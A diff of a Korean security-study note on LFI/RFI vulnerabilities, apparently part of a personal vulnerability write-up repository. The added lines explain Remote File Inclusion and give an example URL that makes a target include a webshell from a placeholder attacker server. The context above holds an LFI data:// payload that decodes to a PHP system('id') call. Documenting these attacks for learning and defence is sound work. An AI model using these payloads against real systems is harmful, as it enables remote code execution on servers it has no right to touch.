

Before and after one commit to Echo-H4C/Echo, a Markdown page: 취약점 정리/LFI,RFI.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/취약점 정리/LFI,RFI.md
+++ b/취약점 정리/LFI,RFI.md
@@ -56,6 +56,13 @@ http://target.com/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZC
 // 뒤의 Base64 문자열은 <?php system('id'); ?> 를 Base64 인코딩한 것이다.
 ```
 
+RFI의 경우 LFI와 유사하지만, 서버 내부가 아니라 외부 서버의 파일을 Include 하는 것이 차이점이다. 보통 공격자가 서버를 열고, 그 서버에 WebShell이나 시스템 명령어를 실행하는 코드를 작성하고, 공격을 실행할 때 공격자 서버의 WebShell으로 요청을 보내도록 파라미터 값을 입력한다.
+
+* 예시
+```
+http://target.com/index.php?file=http://[ATTACKER_SERVER]/webshell.php?cmd=ls
+```
+
 # 2. 점검 방법
 
 # 3. 대응 방안
````
